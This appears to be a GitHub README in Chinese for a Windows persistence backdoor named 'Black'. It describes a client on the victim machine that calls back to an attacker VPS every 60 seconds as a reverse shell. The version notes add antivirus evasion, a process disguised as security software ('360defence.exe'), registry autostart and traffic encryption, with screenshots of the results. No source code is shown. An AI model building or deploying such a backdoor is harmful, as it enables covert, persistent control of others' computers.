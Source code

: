 ## Windows权限维持工具<1.4>

### version 1.0

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- ~~混淆代码，初步免杀~~

##### ~使用方法：

> ```
> # Windows权限维持后门、持续反弹shell，60s/1次
> Black v1.0
> Usage: black.exe r_ip r_port
> author: NOVASEC_黑仔
> if cmd == quit:
>  关闭管道，临时退出
> elif cmd == exit:
>  程序结束，永久退出
> else:
> 执行命令，回显结果
> ```

##### **~使用效果：**

正常回显

![image-20210330174558324](https://user-images.githubusercontent.com/33219753/121507501-483dcb80-ca17-11eb-9132-18e9b45a831e.png)



暂时退出、断开后，60s再次连接，继续执行命令

![image-20210330174838523](https://user-images.githubusercontent.com/33219753/121507542-512e9d00-ca17-11eb-8bfe-6f41f46eccba.png)


永久退出、断开连接

![image-20210330175403279](https://user-images.githubusercontent.com/33219753/121507593-5ab80500-ca17-11eb-902c-1a746d6dd4fa.png)

靶机端口及进程情况：

![image-20210330175221694](https://user-images.githubusercontent.com/33219753/121507627-63104000-ca17-11eb-99b6-8d2dbca9e422.png)


![image-20210330175046964](https://user-images.githubusercontent.com/33219753/121507648-69062100-ca17-11eb-823a-10070b7ed93d.png)


##### ~免杀情况：

![image-20210330173705993](https://user-images.githubusercontent.com/33219753/121507680-71f6f280-ca17-11eb-8a8a-0f1e5d0e1e6d.png)


![image-20210330170259060](https://user-images.githubusercontent.com/33219753/121507747-80dda500-ca17-11eb-83e2-5bda8f65c4e9.png)


被检测出了，建议隔离

![image-20210330170745685](https://user-images.githubusercontent.com/33219753/121507784-8a670d00-ca17-11eb-94d3-c16b6cb4875a.png)

> 在之前的基础上
>
> 增加花指令
>
> 增加程序图标
>
> 其他不变（进程名360defence.exe，双进程）

![image-20210331232840781](https://user-images.githubusercontent.com/33219753/121507823-93f07500-ca17-11eb-986e-50039afdd964.png)


![image-20210331232844697](https://user-images.githubusercontent.com/33219753/121507856-9a7eec80-ca17-11eb-8d0e-a5c1c1b5f93f.png)


##### **~后期规划**：

- 进行出网判断
- 流量加密
- 进阶免杀
- 等等...

### version 1.1

- 不再提供免杀
- 修复bug，更稳定

### version 1.2

- 增加注册自启动功能

运行前：

![image-20210610164417507](https://user-images.githubusercontent.com/33219753/121507914-a79bdb80-ca17-11eb-890a-222a5bc39dc1.png)


运行后：

![image-20210610153915575](https://user-images.githubusercontent.com/33219753/121507939-af5b8000-ca17-11eb-9cd7-c98cf646553e.png)


![image-20210610165050508](https://user-images.githubusercontent.com/33219753/121507976-b84c5180-ca17-11eb-976b-d95a93d6258e.png)


重启验证：

![image-20210610175439655](https://user-images.githubusercontent.com/33219753/121507997-bc786f00-ca17-11eb-864c-d2f156f522c9.png)

![image-20210610181110442](https://user-images.githubusercontent.com/33219753/121508017-c00bf600-ca17-11eb-9061-7c550e2f368f.png)

### version 1.4

- 新增Server端，取代NC，一对一控制（待优化）
- 增加Logo输出
- 简单的传输加密（待优化）
- 缺陷：线程回收问题

S启动：
![image-20210620145256132](https://user-images.githubusercontent.com/33219753/122665255-c436d100-d1d8-11eb-9640-728cd47c740c.png)

S命令执行
![image-20210620145714398](https://user-images.githubusercontent.com/33219753/122665264-cd27a280-d1d8-11eb-9c9a-14842dfcf752.png)

C端：
![image-20210620145923994](https://user-images.githubusercontent.com/33219753/122665268-d31d8380-d1d8-11eb-9695-6c4c7eaab1ba.png)

测试服务中断：
![image-20210620150124277](https://user-images.githubusercontent.com/33219753/122665274-dca6eb80-d1d8-11eb-8403-425d8b490b09.png)

等待60s，又回来了
![image-20210620150152616](https://user-images.githubusercontent.com/33219753/122665279-e6c8ea00-d1d8-11eb-8d82-ab16e128f6d0.png)








